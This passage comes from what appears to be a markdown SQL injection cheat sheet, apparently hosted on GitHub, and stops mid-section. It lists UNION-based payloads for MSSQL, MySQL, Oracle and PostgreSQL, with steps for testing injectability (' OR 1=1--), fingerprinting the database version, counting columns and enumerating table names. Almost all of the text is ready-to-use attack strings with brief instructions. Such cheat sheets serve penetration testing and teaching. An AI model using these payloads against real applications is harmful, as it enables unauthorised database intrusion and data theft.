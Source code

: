         ```
        ' UNION SELECT @@version--
        ' UNION SELECT NULL,@@version--
        ```

    - **MySQL**

        ```
        ' UNION SELECT @@version--
        ' UNION SELECT @@version#
        ' UNION SELECT NULL,@@version--
        ' UNION SELECT NULL,@@version#
        ```

    - **Oracle**

        ```
        ' UNION SELECT 'a' FROM dual--
        ' UNION SELECT 'a','b' FROM dual--
        ' UNION SELECT * FROM v$version--
        ' UNION SELECT BANNER,NULL FROM v$version--
        ```

    - **PostgreSQL**

        ```
        ' UNION SELECT version()--
        ```

- **Basic Syntax**

    First off, check if you can insert the SQL commands.

    ```
    ' OR 1=1--
    ' OR 1=1#
    ```

    If you know you can do that, find the number of the columns in the database.

    ```
    ' UNION SELECT NULL#
    ' UNION SELECT NULL,NULL#
    ' UNION SELECT NULL,NULL,NULL#
    ' UNION SELECT 'a',NULL,NULL#
    ' UNION SELECT NULL,'a',NULL#
    ' UNION SELECT NULL,NULL,'a'#
    ```

    Get the table name in which you want to get the information.

    - **MSSQL**

        ```
        ' UNION SELECT table_name,NULL FROM information_schema.tables--
        ```

    - **MySQL**
